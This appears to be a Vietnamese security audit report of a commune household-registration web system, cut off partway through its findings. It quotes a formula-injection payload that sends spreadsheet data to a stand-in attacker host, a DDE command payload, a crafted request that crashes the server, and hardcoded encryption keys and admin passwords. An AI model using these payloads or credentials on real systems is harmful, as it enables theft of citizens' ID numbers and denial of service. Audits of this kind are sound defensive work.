

# BÁO CÁO KIỂM TOÁN AN NINH ỨNG DỤNG TOÀN DIỆN (APPLICATION SECURITY AUDIT)
## HỆ THỐNG QUẢN LÝ HỘ KHẨU & NHÂN KHẨU XÃ ĐĂK HÀ (QLHK)

- **Phân hệ kiểm toán**: Web API (`QLHK-Backend`), Cơ chế Xác thực & Phân quyền, Bảo vệ Dữ liệu Nhạy cảm, Chuỗi cung ứng Dependency.
- **Thời điểm thực hiện**: 2026-10-01
- **Chế độ kiểm toán**: Read-Only Source Code Security Audit (Section 31 Meta-Rule)
- **Tiêu chuẩn tham chiếu**: OWASP Top 10 (2021/2025), CWE Top 25, NIST SP 800-63B, ISO/IEC 27001.

---

## 1. TỔNG QUAN KẾT QUẢ KIỂM TOÁN (EXECUTIVE SUMMARY)

Kiểm toán an ninh ứng dụng toàn diện mã nguồn `QLHK-Backend` và các tầng giao tiếp HTTP Client cho thấy hệ thống đã xây dựng được một số biện pháp phòng vệ cơ bản (Prisma ORM chống SQL Injection trực tiếp, mã hóa AES-256-GCM cho số CCCD, phân quyền địa bàn thôn theo RBAC, ghi nhận nhật ký kiểm toán Audit Logs).

Tuy nhiên, cuộc kiểm toán đã phát hiện **15 lỗ hổng an ninh**, trong đó có **2 lỗ hổng CRITICAL** và **5 lỗ hổng HIGH** có thể dẫn đến **lộ lọt toàn bộ dữ liệu CCCD của hơn 23.000 công dân**, **phá vỡ cơ chế mã hóa**, **tấn công từ chối dịch vụ (DoS) làm sập hoàn toàn máy chủ Node.js**, và **bỏ qua cơ chế xác thực thông qua mật khẩu hardcode trong mã nguồn client**.

### Ma Trận Phân Bổ Mức Độ Nghiêm Trọng (Severity Matrix)

| Mức Độ | Số Lượng | Mã Lỗ Hổng | Tóm Tắt Tác Động Chính |
| :--- | :---: | :--- | :--- |
| 🔴 **CRITICAL** | **2** | `SEC-01`, `SEC-04` | Lộ CCCD giải mã hàng loạt trong API danh sách hộ; Mật khẩu tài khoản quản trị và cán bộ hardcode dạng plaintext trong client bundle. |
| 🟠 **HIGH** | **5** | `SEC-02`, `SEC-03`, `SEC-05`, `SEC-09`, `SEC-14` | Hash CCCD không salt/pepper đảo ngược được; Khóa mã hóa dự phòng cứng trong code; Heap out-of-memory DoS; Bypass xác thực offline; Lỗ hổng thư viện SheetJS `xlsx`. |
| 🟡 **MEDIUM** | **5** | `SEC-06`, `SEC-07`, `SEC-10`, `SEC-11`, `SEC-13` | Thiếu fileFilter khi upload Excel; Đọc file mẫu cục bộ server; Không giới hạn tốc độ brute force login; Lưu refresh token dạng plaintext; Lộ CCCD qua URL log. |
| 🔵 **LOW / INFO** | **3** | `SEC-08`, `SEC-12`, `SEC-15` | Nguy cơ Formula Injection khi xuất Excel; Access Token không thể thu hồi tức thì khi đăng xuất; Cảnh báo lỗ hổng devDependencies. |

---

## 2. BẢNG CHI TIẾT CÁC PHÁT HIỆN AN NINH (FINDINGS DETAIL)

### 2.1 Bảo Vệ Dữ Liệu Nhạy Cảm & Mật Mã Học (OWASP A02: Cryptographic Failures)

---

#### [SEC-01] [CRITICAL] Giải mã CCCD hàng loạt và trả về Plaintext trong API danh sách Hộ gia đình
- **Vị trí**: [`QLHK-Backend/src/controllers/households.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/households.controller.ts#L7-L38) (Dòng 7–38, 220, 270, 383, 673).
- **CWE**: CWE-359: Exposure of Private Personal Information to an Unauthorized Actor; CWE-200: Exposure of Sensitive Information to an Unauthorized Actor.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/controllers/households.controller.ts (Dòng 7-38)
function formatHouseholdWithDecryptedCitizens(household: any) {
    if (!household) return household;
    const formattedCitizens = (household.citizens || []).map((c: any) => {
        let plainCCCD = "";
        if (c.cccd) {
            try {
                plainCCCD = decryptCCCD(c.cccd); // <-- GIẢI MÃ TOÀN BỘ CCCD
            } catch (err) { ... }
        }
        const cccd_masked = c.cccd_last4 ? `••••••••${c.cccd_last4}` : ...;
        return {
            ...c,
            cccd: plainCCCD, // <-- TRẢ THẲNG SỐ CCCD THỰC TẾ 12 CHỮ SỐ VỀ CLIENT
            cccd_masked,
        };
    });
    return { ...household, citizens: formattedCitizens };
}

// Dòng 220:
const formattedHouseholds = households.map(formatHouseholdWithDecryptedCitizens);
res.json({ data: formattedHouseholds, pagination: ... });
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Tại giao diện người dùng (`HouseholdTable.tsx`), số CCCD được hiển thị che khuất dạng `••••••••1234`.
  - Tuy nhiên, trong payload HTTP Response thực tế gửi từ máy chủ về trình duyệt, trường `cccd` chứa toàn bộ 12 chữ số thực của tất cả thành viên trong từng hộ gia đình được truy vấn.
  - Bất kỳ cán bộ nào đăng nhập hệ thống, hoặc một bên thứ ba bắt gói tin (qua Proxy/DevTools/tiện ích mở rộng trình duyệt) đều có thể thu thập danh sách CCCD hoàn chỉnh mà không cần thực hiện quyền xem chi tiết CCCD.
  - Hơn nữa, việc giải mã này hoàn toàn **bỏ qua cơ chế ghi nhật ký kiểm toán** `REVEAL_CCCD` (vốn được thiết kế riêng ở `revealCitizenCCCD` trong [`citizens.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/citizens.controller.ts#L188-L235)).
- **Khuyến nghị khắc phục**:
  - Tuyệt đối không giải mã CCCD trong hàm liệt kê hộ gia đình (`getHouseholds`, `getHouseholdById`).
  - Trường `cccd` trong API danh sách chỉ được trả về `undefined` hoặc chuỗi mặt nạ `cccd_masked` kèm `cccd_last4`.
  - Chỉ giải mã số CCCD đầy đủ tại một endpoint riêng biệt có thẩm quyền cao (`POST /api/citizens/:id/reveal-cccd`) kèm theo `logAudit` bắt buộc ghi nhận danh tính người xem, thời gian và địa chỉ IP.

---

#### [SEC-02] [HIGH] Hàm băm `hashCCCD` không có Salt và Pepper, dễ bị tấn công đảo ngược bằng Rainbow Table
- **Vị trí**: [`QLHK-Backend/src/utils/crypto.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/utils/crypto.ts#L75-L78).
- **CWE**: CWE-916: Use of Password Hash With Insufficient Computational Effort; CWE-759: Use of a One-Way Hash without a Salt.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/utils/crypto.ts (Dòng 75-78)
export function hashCCCD(plainCCCD: string): string {
    const cleaned = plainCCCD.trim();
    return crypto.createHash("sha256").update(cleaned).digest("hex");
}
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Căn cước công dân Việt Nam là một chuỗi định danh gồm đúng 12 chữ số (không gian mẫu lý thuyết là $10^{12}$, thực tế theo cấu trúc: 3 chữ số mã tỉnh + 1 chữ số thế kỷ/giới tính + 2 chữ số năm sinh + 6 chữ số ngẫu nhiên $\approx 10^8$ tới $10^9$ giá trị cho một địa bàn xã).
  - Hàm `hashCCCD` áp dụng `SHA-256` đơn thuần mà **không có Salt ngẫu nhiên và không có Secret Pepper của hệ thống**.
  - Nếu tệp sao lưu CSDL hoặc cột `cccd_hash` bị rò rỉ, kẻ tấn công có thể dùng phần mềm bẻ khóa (Hashcat) trên một GPU thông thường để tính toán toàn bộ bảng băm trong vòng chưa đầy 10 phút, qua đó giải mã ngược lại 100% số CCCD gốc của toàn bộ nhân khẩu.
  - Điểm này mâu thuẫn trực tiếp với thiết kế kiến trúc ban đầu tại [`behavior-baseline.md`](file:///c:/Projects/QLHK/docs/engineering-audit/behavior-baseline.md#L49) (vốn yêu cầu `SHA-256(cccd + salt)`).
- **Khuyến nghị khắc phục**:
  - Sử dụng cơ chế **HMAC-SHA-256** với một khóa bí mật cấp server (`BLIND_INDEX_SECRET`) hoặc áp dụng kỹ thuật Blind Indexing chuẩn (ví dụ AES-SIV hoặc Argon2id/HMAC với salt cố định theo định danh hệ thống Đăk Hà).
  - Ví dụ:
    ```typescript
    export function hashCCCD(plainCCCD: string): string {
        const cleaned = plainCCCD.trim();
        return crypto.createHmac("sha256", config.blindIndexSecret).update(cleaned).digest("hex");
    }
    ```

---

#### [SEC-03] [HIGH] Khóa bí mật mã hóa AES và JWT Secrets được hardcode làm giá trị dự phòng trong mã nguồn
- **Vị trí**: [`QLHK-Backend/src/config/env.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/config/env.ts#L9-L16).
- **CWE**: CWE-798: Use of Hard-coded Credentials; CWE-321: Use of Hard-coded Cryptographic Key.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/config/env.ts (Dòng 9-16)
export const config = {
    port: parseInt(process.env.PORT || "5002", 10),
    nodeEnv: process.env.NODE_ENV || "development",
    jwtSecret:
        process.env.JWT_SECRET || "qlhk-dakha-jwt-access-secret-32-chars-min",
    jwtRefreshSecret:
        process.env.JWT_REFRESH_SECRET || "qlhk-dakha-jwt-refresh-secret-32-chars-min",
    encryptionKey:
        process.env.ENCRYPTION_KEY ||
        "9e0ec6d63e2a75256378ea59833c454c63681150dd0a02bc6a608c195a66ff57",
...
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Chuỗi Hex khóa 256-bit `"9e0ec6d63e2a75256378ea59833c454c63681150dd0a02bc6a608c195a66ff57"` được lưu trực tiếp trong Git repository.
  - Khi triển khai môi trường thử nghiệm, staging hoặc khi biến môi trường `NODE_ENV` chưa được đặt thành `"production"`, ứng dụng sẽ tự động sử dụng khóa này để mã hóa số CCCD vào CSDL SQLite.
  - Bất kỳ ai có quyền truy cập mã nguồn hoặc tệp build đều có thể lấy khóa này để giải mã toàn bộ dữ liệu CCCD trong CSDL.
  - Tương tự, `jwtSecret` mặc định cho phép kẻ tấn công tự tạo (forge) JWT Token với `role: "admin"` và `village_id: null` để chiếm toàn quyền điều khiển Web API.
- **Khuyến nghị khắc phục**:
  - Xóa bỏ toàn bộ các chuỗi fallback nhạy cảm trong `env.ts`.
  - Khởi động hệ thống phải kiểm tra và ném lỗi (crash on startup) nếu thiếu các biến môi trường bắt buộc, bất kể đang ở môi trường nào:
    ```typescript
    if (!process.env.JWT_SECRET || !process.env.ENCRYPTION_KEY) {
        throw new Error("[FATAL] Missing required security environment variables.");
    }
    ```

---

#### [SEC-04] [CRITICAL] Danh sách tài khoản mặc định kèm mật khẩu Plaintext bị nhúng thẳng vào mã nguồn Client
- **Vị trí**: [`QLHK-Client/src/api/authApi.ts`](file:///c:/Projects/QLHK/QLHK-Client/src/api/authApi.ts#L18-L145, #L198-L219, #L328-L335, #L400-L421).
- **CWE**: CWE-259: Use of Hard-coded Password; CWE-312: Cleartext Storage of Sensitive Information.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Client/src/api/authApi.ts (Dòng 18-45)
export const DEFAULT_ACCOUNTS: StoredAccount[] = [
    {
        id: "usr-admin-01",
        username: "admin",
        password: "admin123", // <-- PLAINTEXT PASSWORD
        role: "admin",
        village_id: null,
        full_name: "Quản trị viên Xã Đăk Hà",
    },
    {
        id: "usr-cb-01",
        username: "canboxa",
        password: "canbo123", // <-- PLAINTEXT PASSWORD
        role: "admin",
        village_id: null,
    },
    {
        id: "usr-th1-01",
        username: "thon1",
        password: "thon123", // <-- PLAINTEXT PASSWORD
        role: "user",
        village_id: "vil-01",
    },
    // ... toàn bộ 7 thôn và các tài khoản legacy
];
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Mật khẩu của toàn bộ tài khoản quản trị xã (`admin`, `canboxa`) và trưởng các thôn (`thon1` đến `thon5`, `thonkdy`, `langkhb`, `truongthon1`...) được định nghĩa dạng chuỗi trần trong mã nguồn TypeScript phía client.
  - Khi đóng gói ứng dụng (Vite build / Electron asar), mảng `DEFAULT_ACCOUNTS` này nằm nguyên vẹn trong bundle JavaScript phân phối cho người dùng.
  - Hơn nữa, khi người dùng đổi mật khẩu hoặc tạo người dùng mới, hàm `updatePassword` (dòng 328–335) và `createUser` (dòng 400–421) lưu tiếp tục mật khẩu mới dạng **chuỗi trần không băm** vào `secureStorage` (key: `qlhk_accounts_store`).
- **Khuyến nghị khắc phục**:
  - Gỡ bỏ hoàn toàn mảng `DEFAULT_ACCOUNTS` và cơ chế xác thực offline bằng mật khẩu trần khỏi mã nguồn frontend.
  - Việc xác thực danh tính phải được thực hiện 100% thông qua Backend API (với mật khẩu được băm bằng bcrypt trên server).
  - Đối với chế độ offline của máy tính bàn (Electron), nếu cần đăng nhập ngoại tuyến, phải sử dụng cơ chế DPAPI / OS Keychain để lưu dẫn xuất băm hoặc session token có chữ ký số cục bộ, tuyệt đối không lưu mật khẩu thô.

---

### 2.2 Tấn Công Từ Chối Dịch Vụ & Xử Lý Dữ Liệu Đầu Vào (OWASP A04: Insecure Design & A03: Injection)

---

#### [SEC-05] [HIGH] Tấn công cạn kiệt tài nguyên bộ nhớ (Node.js Heap Out-Of-Memory DoS) qua bộ lọc tuổi
- **Vị trí**: [`QLHK-Backend/src/controllers/households.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/households.controller.ts#L138-L160).
- **CWE**: CWE-400: Uncontrolled Resource Consumption; CWE-770: Allocation of Resources Without Limits or Throttling.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/controllers/households.controller.ts (Dòng 138-160)
if (hasMinA || hasMaxA) {
    let minBirthYear = 1900;
    let maxBirthYear = targetYear;

    if (hasMaxA) {
        minBirthYear = targetYear - maxA!;
    }
    if (hasMinA) {
        maxBirthYear = targetYear - minA!;
    }

    const validYears: number[] = [];
    for (let y = Math.max(1900, minBirthYear); y <= maxBirthYear; y++) {
        validYears.push(y); // <-- VÒNG LẶP KHÔNG CÓ GIỚI HẠN CHẶN TRÊN
    }

    if (validYears.length > 0) {
        citizenSomeConditions.OR = validYears.map((y) => ({
            dob: { contains: String(y) },
        }));
    }
}
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Các tham số query `minAge`, `maxAge`, `year` được lấy trực tiếp từ `req.query` mà không có bước kiểm tra ràng buộc nghiệp vụ (chỉ ép kiểu `parseInt`).
  - Nếu một người dùng gửi request với:
    `GET /api/households?minAge=-50000000&year=100000000`
    Giá trị `maxBirthYear` sẽ trở thành: $100,000,000 - (-50,000,000) = 150,000,000$.
  - Vòng lặp `for` sẽ chạy từ 1900 đến 150,000,000 và liên tục `push` phần tử vào mảng `validYears`.
  - Kết quả: V8 Engine bị quá tải bộ nhớ ngay lập tức và tiến trình Node.js sập với thông báo:
    `FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory`.
  - Toàn bộ dịch vụ backend `QLHK-Backend` ngừng hoạt động tức thì đối với tất cả người dùng trong toàn xã.
- **Khuyến nghị khắc phục**:
  - Đặt điều kiện kiểm tra nghiêm ngặt cho `minAge`, `maxAge` và `year` thông qua thư viện kiểm thực (như `zod`):
    - `year`: Phải nằm trong khoảng $[1900, \text{năm hiện tại} + 1]$.
    - `minAge`, `maxAge`: Phải nằm trong khoảng $[0, 150]$, và `minAge <= maxAge`.
  - Thay vì sinh mảng `OR: [{ dob: { contains: year } }]` bằng vòng lặp, nên chuẩn hóa trường ngày sinh `dob` trong CSDL thành kiểu dữ liệu ngày tháng chuẩn (`DateTime`) để truy vấn theo phạm vi `gte` / `lte`.

---

#### [SEC-06] [MEDIUM] Thiếu kiểm soát loại tệp và định dạng tệp (MIME Type) khi tải lên tệp Excel
- **Vị trí**: [`QLHK-Backend/src/routes/excel.routes.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/routes/excel.routes.ts#L9-L12).
- **CWE**: CWE-434: Unrestricted Upload of File with Dangerous Type.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/routes/excel.routes.ts (Dòng 9-12)
const upload = multer({
    storage: multer.memoryStorage(),
    limits: { fileSize: 10 * 1024 * 1024 }, // 10MB
    // THIẾU fileFilter!
});
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Middleware `multer` chỉ kiểm tra dung lượng tối đa 10MB nhưng không định nghĩa thuộc tính `fileFilter`.
  - Kẻ tấn công có thể tải lên các tệp nhị phân bất kỳ (`.exe`, `.zip`, `.html`, `.svg`, v.v.) vào endpoint `/api/excel/preview` hoặc `/api/excel/import`.
  - Dữ liệu này sau đó được chuyển trực tiếp vào hàm `xlsx.read(buffer)`, có thể kích hoạt các lỗi phân tích cú pháp tiềm ẩn hoặc làm cạn kiệt bộ nhớ bộ đệm.
- **Khuyến nghị khắc phục**:
  - Thêm bộ lọc MIME type và đuôi tệp cho Multer:
    ```typescript
    const ALLOWED_MIMES = [
        "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet",
        "application/vnd.ms-excel",
    ];
    const upload = multer({
        storage: multer.memoryStorage(),
        limits: { fileSize: 10 * 1024 * 1024 },
        fileFilter: (_req, file, cb) => {
            if (ALLOWED_MIMES.includes(file.mimetype) || file.originalname.match(/\.(xlsx|xls)$/i)) {
                cb(null, true);
            } else {
                cb(new Error("Chỉ chấp nhận tệp bảng tính định dạng .xlsx hoặc .xls"));
            }
        },
    });
    ```

---

#### [SEC-07] [MEDIUM] Endpoint Excel tự động fallback đọc tệp cục bộ trên máy chủ phát triển
- **Vị trí**: [`QLHK-Backend/src/controllers/excel.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/excel.controller.ts#L19-L32).
- **CWE**: CWE-668: Exposure of Resource to Wrong Sphere.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/controllers/excel.controller.ts (Dòng 19-32)
function getExcelSource(req: any): Buffer | string {
    if (req.file && req.file.buffer) return req.file.buffer;
    if (req.file && req.file.path) return req.file.path;
    if (fs.existsSync(config.excelSamplePath)) {
        return config.excelSamplePath; // C:\Users\umnuar\Downloads\Nhân hộ khẩu.xls
    }
    throw new Error(...);
}
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Nếu một request `POST /api/excel/preview` hoặc `import` được gửi tới mà **không đính kèm tệp**, máy chủ sẽ tự động nạp tệp tại đường dẫn `config.excelSamplePath` (mặc định trỏ vào thư mục `Downloads` của người lập trình).
  - Điều này tạo ra rủi ro rò rỉ dữ liệu ngoài ý muốn hoặc nhập đè dữ liệu mẫu vào cơ sở dữ liệu thực tế mà người dùng không hề hay biết.
- **Khuyến nghị khắc phục**:
  - Bắt buộc phải có tệp gửi lên từ `req.file` đối với môi trường production/staging. Nếu không có `req.file`, trả về lỗi `HTTP 400 Bad Request: Vui lòng đính kèm tệp Excel`.

---

#### [SEC-08] [LOW / MEDIUM] Nguy cơ Formula Injection (CSV / Excel Injection) khi xuất dữ liệu hộ tịch
- **Vị trí**: [`QLHK-Client/src/pages/HouseholdsPage.tsx`](file:///c:/Projects/QLHK/QLHK-Client/src/pages/HouseholdsPage.tsx#L491-L505).
- **CWE**: CWE-1236: Improper Neutralization of Formula Elements in a CSV File.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Client/src/pages/HouseholdsPage.tsx (Dòng 491-505)
rows.push([
    currentStt++,
    chuHoVal,
    thanhVienVal,
    hoDemVal,
    tenVal,
    dobVal,
    ageVal,
    nuVal,
    dttsVal,
    religionVal,
    ghiChuVal, // <-- DỮ LIỆU ĐƯA THẲNG VÀO CELL BẢNG TÍNH KHÔNG SANITIZE
]);
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Dữ liệu `hoDemVal`, `tenVal`, `ghiChuVal` do người dùng nhập (hoặc được import từ trước) được ghi thẳng vào bảng tính SheetJS mà không qua bước chuẩn hóa tiền tố.
  - Nếu một nhân khẩu được đặt tên hoặc ghi chú bắt đầu bằng các ký tự điều khiển công thức như `=`, `+`, `-`, `@` (ví dụ: `=cmd|' /C calc'!A0` hoặc `=HYPERLINK("https://attacker.site/exfil?d="&A1, "Xem chi tiết")`), khi cán bộ mở file Excel xuất ra, phần mềm Microsoft Excel sẽ thực thi hoặc cảnh báo liên kết ngoài, có nguy cơ đánh cắp dữ liệu hoặc chạy lệnh độc hại trên máy trạm của cán bộ.
- **Khuyến nghị khắc phục**:
  - Khử độc (sanitize) mọi ô chuỗi trước khi đưa vào hàng xuất Excel: Nếu chuỗi bắt đầu bằng `=`, `+`, `-`, `@`, `\t`, `\r`, hãy thêm dấu nháy đơn `'` ở đầu chuỗi (ví dụ: `'=Dữ liệu`).

---

### 2.3 Quản Lý Định Danh, Phiên Đăng Nhập & Phân Quyền (OWASP A01 & A07)

---

#### [SEC-09] [HIGH] Cơ chế đăng nhập Offline giả mạo Token cho phép vượt quyền Quản trị viên (Admin Bypass)
- **Vị trí**: [`QLHK-Client/src/api/authApi.ts`](file:///c:/Projects/QLHK/QLHK-Client/src/api/authApi.ts#L204-L219, #L268-L276).
- **CWE**: CWE-287: Improper Authentication; CWE-290: Authentication Bypass by Spoofing.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Client/src/api/authApi.ts (Dòng 204-219)
if (matched && matched.password === credentials.password) {
    const isAdm = matched.role === "admin";
    return {
        accessToken: `offline-token-${isAdm ? "admin" : "user"}-${matched.id}`,
        refreshToken: `offline-refresh-${matched.id}`,
        user: { ... },
    };
}

// Dòng 268-276:
if (accessToken?.startsWith("offline-token-admin")) {
    return {
        id: "usr-admin-01",
        username: "admin",
        role: "admin",
        village_id: null,
    };
}
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Khi client không kết nối được tới backend hoặc khi cố tình ngắt mạng, client tự động sinh chuỗi token giả lập: `offline-token-admin-usr-admin-01`.
  - Mã nguồn frontend dựa vào tiền tố `offline-token-admin` để cấp quyền quản trị viên cấp xã cho người dùng.
  - Người dùng có thể chỉnh sửa cấu hình hệ thống, xóa danh sách hộ dân khỏi bộ nhớ đệm hoặc tải bản sao lưu dữ liệu toàn xã mà không cần bất kỳ xác thực hợp lệ nào từ máy chủ.
- **Khuyến nghị khắc phục**:
  - Loại bỏ hoàn toàn cơ chế tự sinh token giả lập ở client.
  - Mọi token phiên phải là JWT có chữ ký số hợp lệ từ Backend API. Nếu mất mạng, chuyển ứng dụng sang trạng thái Read-Only có kiểm soát đối với dữ liệu đã lưu trong phiên trước đó.

---

#### [SEC-10] [MEDIUM] Thiếu Rate Limiting & Account Lockout trên endpoint đăng nhập
- **Vị trí**: [`QLHK-Backend/src/controllers/auth.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/auth.controller.ts#L12-L87) & [`QLHK-Backend/src/routes/auth.routes.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/routes/auth.routes.ts).
- **CWE**: CWE-307: Improper Restriction of Excessive Authentication Attempts.
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Endpoint `/api/auth/login` không được cấu hình middleware giới hạn tần suất yêu cầu (như `express-rate-limit`).
  - Kẻ tấn công có thể thực hiện tấn công dò mật khẩu (brute-force) hoặc nhồi thông tin đăng nhập (credential stuffing) với tốc độ hàng nghìn request mỗi phút vào tài khoản cán bộ mà không bị chặn IP hay khóa tài khoản tạm thời.
- **Khuyến nghị khắc phục**:
  - Bổ sung `express-rate-limit` cho các endpoint xác thực: Giới hạn tối đa 5 lần thử đăng nhập thất bại trong vòng 15 phút trên mỗi địa chỉ IP.
  - Ghi nhận số lần đăng nhập sai vào CSDL và tạm khóa tài khoản 15 phút nếu nhập sai quá 5 lần liên tiếp.

---

#### [SEC-11] [MEDIUM] Refresh Token được lưu trữ dạng chuỗi trần (Plaintext) trong Cơ sở dữ liệu
- **Vị trí**: [`QLHK-Backend/src/controllers/auth.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/auth.controller.ts#L63-L68, #L141-L147) & [`prisma/schema.prisma`](file:///c:/Projects/QLHK/QLHK-Backend/prisma/schema.prisma#L35-L42).
- **CWE**: CWE-312: Cleartext Storage of Sensitive Information.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/controllers/auth.controller.ts (Dòng 63-68)
await prisma.refresh_tokens.create({
    data: {
        user_id: user.id,
        token: refreshToken, // <-- LƯU TOKEN TRẦN VÀO BẢNG refresh_tokens
        expires_at: expiresAt,
    },
});
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Bảng `refresh_tokens` lưu trực tiếp chuỗi JWT Refresh Token (hạn 7 ngày).
  - Nếu tệp CSDL SQLite `dev.db` bị đọc trộm qua tấn công khác hoặc tệp backup bị lộ, kẻ tấn công có thể trích xuất toàn bộ các refresh token đang hoạt động để làm mới phiên đăng nhập và mạo danh tất cả người dùng trong hệ thống mà không cần mật khẩu.
- **Khuyến nghị khắc phục**:
  - Chỉ lưu hàm băm SHA-256 của Refresh Token (hoặc định danh duy nhất `jti` của token) trong bảng `refresh_tokens`. Khi người dùng gửi refresh token lên, tính toán băm và so khớp với bản ghi trong CSDL.

---

#### [SEC-12] [LOW] Thiếu cơ chế thu hồi Access Token tức thời khi người dùng đăng xuất
- **Vị trí**: [`QLHK-Backend/src/controllers/auth.controller.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/controllers/auth.controller.ts#L166-L179).
- **CWE**: CWE-613: Insufficient Session Expiration.
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Khi người dùng bấm Đăng xuất, máy chủ chỉ xóa bản ghi trong bảng `refresh_tokens`.
  - Access Token hiện tại (hạn 15 phút) vẫn hoàn toàn hợp lệ cho đến khi hết hạn vì middleware `authenticateToken` chỉ kiểm tra chữ ký số qua hàm `jwt.verify` mà không có danh sách thu hồi (Token Blacklist / Revocation List).
- **Khuyến nghị khắc phục**:
  - Duy trì một bộ đệm in-memory (như Redis hoặc SQLite token blacklist với TTL 15 phút) để lưu các access token đã bị đăng xuất trước hạn.

---

### 2.4 Kiểm Tra Toàn Diện Phân Quyền Địa Bàn Thôn (RBAC Village Scoping Audit)

Kiểm toán an ninh đối với ranh giới địa bàn xã Đăk Hà (gồm 7 thôn/làng) tập trung vào việc ngăn chặn lỗi **IDOR (Insecure Direct Object Reference)** và **Leo thang đặc quyền (Privilege Escalation)**:

| Phân hệ / Endpoint | Cơ chế Bảo vệ RBAC | Đánh giá An toàn | Ghi chú & Điểm cần lưu ý |
| :--- | :--- | :---: | :--- |
| `GET /api/households` | `where.village_id = req.user.village_id` cưỡng chế cho role `user`. | ✅ **PASS** | Cán bộ thôn 1 không thể xem danh sách hộ của thôn 2 qua query params. |
| `GET /api/households/:id` | Kiểm tra CSDL: `if (household.village_id !== req.user.village_id) 403 Forbidden`. | ✅ **PASS** | Kiểm tra quyền sau khi fetch hộ khẩu từ DB, chống IDOR thành công. |
| `PUT /api/households/:id` | Kiểm tra CSDL trước khi sửa: `if (current.village_id !== req.user.village_id) 403`. | ✅ **PASS** | Chống sửa hộ của thôn khác thành công. |
| `DELETE /api/households/:id` | Kiểm tra CSDL trước khi xóa mềm: `if (current.village_id !== req.user.village_id) 403`. | ✅ **PASS** | Chống xóa hộ của thôn khác thành công. |
| `POST /api/households/batch-delete` | Kiểm tra toàn bộ IDs trong mảng phải cùng `village_id` với người dùng. | ✅ **PASS** | Chống xóa chéo thôn qua mảng hàng loạt. |
| `DELETE /api/households/:id/hard` | Cưỡng chế `requireAdmin` (chỉ Admin mới có quyền xóa vĩnh viễn). | ✅ **PASS** | Cán bộ thường không thể xóa cứng. |
| `GET /api/citizens` | Lọc `where.household = { village_id: effectiveVillageId }`. | ✅ **PASS** | Nhân khẩu được ràng buộc qua hộ khẩu thuộc thôn quản lý. |
| `GET /api/citizens/:id` | Kiểm tra `citizen.household.village_id !== req.user.village_id`. | ✅ **PASS** | Chống IDOR xem chi tiết nhân khẩu. |
| `GET /api/citizens/:id/reveal-cccd` | Kiểm tra địa bàn thôn và ghi Audit Log. | ✅ **PASS** | Tuy nhiên bị bypass bởi lỗi `SEC-01` tại endpoint households. |
| `POST /api/citizens` | Kiểm tra hộ gia đình đích có thuộc thôn của cán bộ hay không. | ✅ **PASS** | Chống gán nhân khẩu vào hộ thôn khác. |
| `PUT /api/citizens/:id` | Kiểm tra `current.household.village_id !== req.user.village_id`. | ✅ **PASS** | Chống sửa nhân khẩu thôn khác. |
| `DELETE /api/citizens/:id` | Kiểm tra `current.household.village_id !== req.user.village_id`. | ✅ **PASS** | Chống xóa nhân khẩu thôn khác. |
| `GET /api/analytics/overview` | Ép `targetVillageId = req.user.village_id` đối với cán bộ thôn. | ✅ **PASS** | Thống kê số liệu đúng phạm vi. |
| `GET /api/analytics/by-village` | Lọc `where.id = req.user.village_id` nếu không phải Admin. | ✅ **PASS** | Cán bộ thôn chỉ thấy số liệu so sánh thôn mình. |
| `POST /api/excel/import` | Tự động lấy `targetVillageId = req.user.village_id`. | ⚠️ **CẦN CẢI THIỆN** | Nếu Admin nhập dữ liệu mà không truyền `village_id`, hệ thống tự động gán vào Thôn 1 đầu tiên trong CSDL. |

---

### 2.5 Ghi Nhật Ký & Rò Rỉ Thông Tin (OWASP A09: Logging & Monitoring Failures)

---

#### [SEC-13] [MEDIUM] Số CCCD và từ khóa tìm kiếm nhạy cảm bị ghi trực tiếp vào Terminal Request Log
- **Vị trí**: [`QLHK-Backend/src/middlewares/logger.middleware.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/middlewares/logger.middleware.ts#L60-L93) & [`QLHK-Backend/src/utils/dashboard.ts`](file:///c:/Projects/QLHK/QLHK-Backend/src/utils/dashboard.ts#L264-L285).
